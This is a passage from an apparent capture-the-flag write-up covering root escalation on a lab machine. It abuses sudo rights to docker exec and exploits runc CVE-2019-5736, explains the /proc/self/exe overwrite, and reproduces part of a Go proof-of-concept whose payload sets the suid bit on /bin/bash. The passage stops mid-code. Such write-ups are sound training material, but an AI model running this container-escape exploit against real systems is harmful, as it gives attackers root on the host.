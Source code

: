 ```
noah@thenotebook:~$ wc -c user.txt 
33 user.txt
```

# Root

Checking for sudo permission we can see noah is able to run `docker exec -it` on any container starting with `webapp-dev01`.

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Looking at the docker version it is below `18.09.2`, which means its version of runc might be vulnerable to CVE-2019-5736. To exploit this we can overwrite a binary (/bin/sh in this case) inside the docker container with `#!/proc/self/exe` which points to the binary that started the process. With this we can now overwrite the runc binary on the host, giving us command execution as root.

Following this [PoC](https://github.com/Frichetten/CVE-2019-5736-PoC) for it we first change the `main.go` file to include the command which we want to run, in this case setting the suid bit on bash and compile the file.

`main.go`
```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n chmod +s /bin/bash"

func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
```
